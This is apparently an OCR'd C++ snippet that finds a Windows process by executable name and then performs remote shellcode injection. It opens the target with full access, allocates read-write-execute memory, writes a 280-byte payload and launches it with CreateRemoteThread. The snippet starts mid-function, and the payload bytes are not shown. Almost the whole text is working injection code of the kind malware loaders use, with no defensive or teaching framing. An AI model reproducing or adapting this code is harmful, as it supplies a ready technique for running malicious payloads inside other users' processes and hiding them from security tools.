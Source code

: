 ```cpp
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR GETTING \"hSnapshot\"] -> %d\n", GetLastError());
		return false;
	}

	PROCESSENTRY32W ProcEntry = { 0 };

	ProcEntry.dwSize = sizeof(PROCESSENTRY32W);

	if (!Process32FirstW(hSnapshot, &ProcEntry)) {
		printf("\n[ERROR at \"Process32FirstW\"] -> %d\n", GetLastError());
		return false;
	}

	do {

		if (lstrcmpW(ProcEntry.szExeFile, wcProcess) == 0) {
			wprintf(L"\n[+] Process found -> \"%s\"\n\t\\__PID -> %d\n", ProcEntry.szExeFile, ProcEntry.th32ProcessID);
			*ProcId = ProcEntry.th32ProcessID;
			break;
		}

	} while (Process32NextW(hSnapshot, &ProcEntry));


	return true;
}

bool RemoteInjection(DWORD dwPid) {

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, dwPid);
	if (hProcess == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE HANDLE TO THE PROCESS] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[HANDLE]\n");

	PVOID pRemoteAddress = VirtualAllocEx(hProcess, nullptr, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pRemoteAddress == nullptr) {
		printf("\n[ERROR ALLOCATING THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[BUFFER]\n");

	SIZE_T BytesWritten = 0;

	if (!WriteProcessMemory(hProcess, pRemoteAddress, pPayload, 280, nullptr)) {
		printf("\n[ERROR WRITTING THE SHELLCODE INTO THE REMOTE BUFFER] -> %d\n", GetLastError());
		return false;
	}
	printf("\n[SHELLCODE]\n");

	HANDLE CreateThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)pRemoteAddress, nullptr, 0, nullptr);

	if (CreateThread == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR CREATING THE REMOTE THREAD] -> %d\n", GetLastError());
		return false;
	}
```
